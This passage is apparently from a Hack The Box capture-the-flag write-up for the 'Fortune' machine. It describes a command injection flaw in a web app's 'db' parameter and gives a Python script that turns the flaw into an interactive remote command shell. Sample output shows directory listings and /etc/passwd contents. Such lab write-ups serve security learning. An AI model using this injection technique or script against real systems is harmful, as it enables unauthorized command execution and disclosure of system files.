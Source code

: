 The fortune web app has a pretty trivial command injection vulnerability. It simply appends what I pass in the `db` parameter to the `fortune` application call. I can run arbitrary commands and programs simply by adding a semi-colon after the database name.

The example here shows I can run `id` and list the root directory:

![](/assets/images/htb-writeup-fortune/fortune3.png)

Because I wasn't sure how much time I'd need to spend poking around the system through that command injection vulnerability, I wrote a quick python script that runs commands and cleans up the output. The output of all commands is displayed to screen and also saved to `output.txt`.

```python
#!/usr/bin/python

import re
import readline
import requests

f = open("output.txt", "a")

while True:
    cmd = raw_input("> ")
    data = { "db": ";echo '****';{}".format(cmd)}
    r = requests.post("http://fortune.htb/select", data=data)
    m = re.search("\*\*\*\*(.*)</pre>", r.text, re.DOTALL)
    if m:
        print m.group(1)
        f.write("CMD: {}".format(cmd))
        f.write(m.group(1))
```

Here's what the output looks like:

```
> ls -l

total 56
drwxrwxrwx  2 _fortune  _fortune    512 Nov  2 23:39 __pycache__
-rw-r--r--  1 root      _fortune    341 Nov  2 22:58 fortuned.ini
-rw-r-----  1 _fortune  _fortune  14581 Mar  9 19:03 fortuned.log
-rw-rw-rw-  1 _fortune  _fortune      6 Mar  9 18:38 fortuned.pid
-rw-r--r--  1 root      _fortune    413 Nov  2 22:59 fortuned.py
drwxr-xr-x  2 root      _fortune    512 Nov  2 22:57 templates
-rw-r--r--  1 root      _fortune     67 Nov  2 22:59 wsgi.py

> tail -n 10 /etc/passwd

_syspatch:*:112:112:syspatch unprivileged user:/var/empty:/sbin/nologin
_slaacd:*:115:115:SLAAC Daemon:/var/empty:/sbin/nologin
_postgresql:*:503:503:PostgreSQL Manager:/var/postgresql:/bin/sh
_pgadmin4:*:511:511::/usr/local/pgadmin4:/usr/local/bin/bash
_fortune:*:512:512::/var/appsrv/fortune:/sbin/nologin
_sshauth:*:513:513::/var/appsrv/sshauth:/sbin/nologin
```